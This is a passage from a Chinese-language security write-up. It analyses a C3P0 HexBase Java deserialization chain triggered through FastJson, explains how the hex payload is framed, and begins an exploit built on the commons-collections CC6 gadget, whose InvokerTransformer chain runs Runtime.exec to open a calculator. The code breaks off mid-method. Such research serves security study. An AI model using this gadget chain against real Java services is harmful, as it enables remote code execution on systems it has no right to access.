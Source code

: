 它这里把hex字符串读了进来，把转码后的结果保存到了`serBytes`这个字节流的数组中，这个字节流是拿去进行`SerializableUtils.formByteArray()`的操作，值得注意的是，在解析过程中调用了`substring()`方法将字符串头部的`HASH_HEADER`截去了，因此我们在构造时需要在十六进制字符串头部加上`HASH_HEADER`，并且会截去字符串最后一位，所以需要在末尾加上一个`;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232034618.png)
`SerializableUtils#fromByteArray()`调用了`SerializableUtils#deserializeFromByteArray`，跟进，看到了反序列化的操作`readObject()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409232035426.png)
#### EXP编写  
在链子的第一步看到传入的是`this.getUserOvveridesAsString()`，所以用FastJson去打  
直接用之前的CC6链即可  
引入commons-collections  
```xml  
&lt;dependency&gt;    
 &lt;groupId&gt;commons-collections&lt;/groupId&gt;    
 &lt;artifactId&gt;commons-collections&lt;/artifactId&gt;    
 &lt;version&gt;3.2.1&lt;/version&gt;    
&lt;/dependency&gt;  
```  
```java  
import com.alibaba.fastjson.JSON;    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.keyvalue.TiedMapEntry;    
import org.apache.commons.collections.map.LazyMap;    
    
import java.beans.PropertyVetoException;    
import java.io.ByteArrayOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.io.StringWriter;    
import java.lang.reflect.Field;    
import java.util.HashMap;    
import java.util.Map;    
    
public class HexBaseExp {    
    //CC6的利用链    
    public static Map CC6() throws NoSuchFieldException, IllegalAccessException {    
        //使用InvokeTransformer包装一下    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;, new Class[]{String.class, Class[].class}, new Object[]{&#34;getRuntime&#34;, null}),    
                new InvokerTransformer(&#34;invoke&#34;, new Class[]{Object.class, Object[].class}, new Object[]{null, null}),    
                new InvokerTransformer(&#34;exec&#34;, new Class[]{String.class}, new Object[]{&#34;open -a Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
        HashMap&lt;Object, Object&gt; hashMap = new HashMap&lt;&gt;();    
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(&#34;five&#34;)); // 防止在反序列化前弹计算器    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, &#34;key&#34;);    
        HashMap&lt;Object, Object&gt; expMap = new HashMap&lt;&gt;();    
        expMap.put(tiedMapEntry, &#34;value&#34;);    
        lazyMap.remove(&#34;key&#34;);    
    
        // 在 put 之后通过反射修改值    
        Class&lt;LazyMap&gt; lazyMapClass = LazyMap.class;    
        Field factoryField = lazyMapClass.getDeclaredField(&#34;factory&#34;);    
        factoryField.setAccessible(true);    
        factoryField.set(lazyMap, chainedTransformer);    
```